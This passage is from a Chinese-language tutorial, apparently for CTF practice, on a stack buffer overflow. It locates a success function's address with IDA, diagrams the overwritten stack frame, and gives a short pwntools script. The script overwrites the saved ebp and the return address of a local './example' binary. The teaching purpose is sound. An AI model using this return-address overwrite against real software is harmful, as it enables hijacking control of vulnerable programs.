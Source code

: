 并且, 我们可以通过`IDA`获得`success`的地址, 其地址为`0x080491B6`.

<div align=center><img src="./images/8.png"></div>

那么如果我们读取的字符串为`0x12*'a'+'bbbb'+success_addr`, 由于`gets`会读到回车才算结束, 所以我们可以直接读取所有的字符串, 并且将`saved ebp`覆盖为`bbbb`, 将`retaddr`覆盖为`success_addr`, 此时的栈结构为:

```text
                                        +-----------------+
                                        |    0x080491B6   |
                                        +-----------------+
                                        |       bbbb      |
                                ebp--->+-----------------+
                                        |                 |
                                        |                 |
                                        |                 |
                                        |                 |
                                        |                 |
                                        |                 |
                        data,ebp-0x16-->+-----------------+
```

根据上文的分析, 即可开始构造相应的`exploit`了. 这里需要注意的一点是, 在计算机内存中每个值都是按照字节存储的. 一般情况下都是采用小端存储, 即`0x080491B6`在内存中的形式是`\xb6\x91\x04\x08`. `exploit`如下:

```python
# coding=utf-8
from pwn import *

# 构造与程序交互的对象
p = process('./example')
success_addr = 0x080491B6

# 构造Payload
# payload = 'a' * 0x16 + p32(success_addr)
payload = 'a' * 0x12 + 'bbbb' + p32(success_addr)

# 发送Payload
p.sendline(payload)

# 代码交互转为手工交互
p.interactive()
```
